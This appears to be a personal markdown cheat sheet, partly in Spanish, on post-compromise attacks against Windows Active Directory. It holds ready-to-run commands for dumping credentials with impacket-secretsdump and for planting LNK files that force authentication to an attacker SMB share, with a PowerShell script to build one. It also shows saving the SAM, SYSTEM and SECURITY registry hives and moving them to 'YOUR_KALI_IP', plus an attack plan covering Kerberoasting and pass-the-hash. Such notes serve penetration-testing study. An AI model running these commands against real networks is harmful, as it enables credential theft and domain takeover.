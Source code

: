 # Windows Active Directory Pentesting

## Post compromise attacks

- [kali impacket - secrets dump](https://www.kali.org/tools/impacket/)
    - `impacket-secretsdump DC.LOCAL/USER:'PASSWORD'@$IP`
    - running secretsdump as local:
        - `impacket-secrestsdump -sam sam.save -security security.save -system system.save LOCAL`
- [Kerberoasting](./kerberoasting.md)
- [ASREPRoasting](./ASREPRoasting.md)
    - [más material](https://tools.thehacker.recipes/impacket/examples/getuserspns.py)
    - Cuando comprometemos una cuenta, un ataque para empezar es este.
- Token impersonation attack
    - psexec
    - [mimikatz](./mimikatz.md)
    - [pypykatz](./pypykatz.md)
    - []()
- [LNK File Attacks](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf): `netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`
    - Código:

    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
``` 

### Post compromise attack strategy
- 1st
    - [kerberoasting](./kerberoasting.md)
    - [ASREPRoasting](./ASREPRoasting.md)
    - secretsdump
    - pass the hash
- 2nd: big deep
    - enum bloodhound
    - old vulns

### An other post compromise attack strategy
#### Attacking SAM
- [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager)
##### Copying SAM Registry Hives
- hklm\sam
- hklm\system
- hklm\security
- We can create backups of these hives using the reg.exe utility.

#### Using reg.exe save to copy registry hives.
 ```
 C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a Share with impacket-smbserver
`impacket-smbserver -smb2support shareName someDir`

#### Moving hive copies to share
```
C:\> move sam.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move security.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.

C:\> move system.save \\YOUR_KALI_IP\CompData
        1 file(s) moved.
```
